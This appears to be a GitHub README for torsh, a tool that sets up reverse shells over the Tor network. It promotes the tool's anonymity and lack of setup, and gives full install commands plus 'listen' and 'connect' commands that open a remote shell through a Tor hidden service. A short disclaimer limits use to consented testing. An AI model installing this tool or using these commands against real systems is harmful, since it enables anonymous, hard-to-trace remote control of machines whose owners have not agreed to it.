 ![torsh Logo](https://raw.githubusercontent.com/pisoj/torsh/master/logo.png)

## About

Torsh is a tool that simplifies the creation of a reverse shell. It operates over [Tor](https://www.torproject.org/) network. This is great for anonymity and also helps with the setup. You don't need to do port forwarding or any other kind of presetup. It just works!

</p>

## Benefits

+ Creating reverse shell as a Tor hidden service
+ End to end Tor connection (no [Tor2Web](https://www.tor2web.org/) etc...)
+ No need for port forwarding
+ Easy & Quick to use!


## Installation

```
git clone https://github.com/pisoj/torsh.git
cd torsh
chmod +x ./install.sh
sudo ./install.sh
```

## Example usage

#### Listen
```
torsh listen -p 5000
```

#### Connect
```
torsh connect <address> -p 5000
```


## Disclaimer

This tool is only for testing and can only be used where strict consent has been given. Do not use it for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. I assume no liability and are not responsible for any misuse or damage caused by this tool and software.
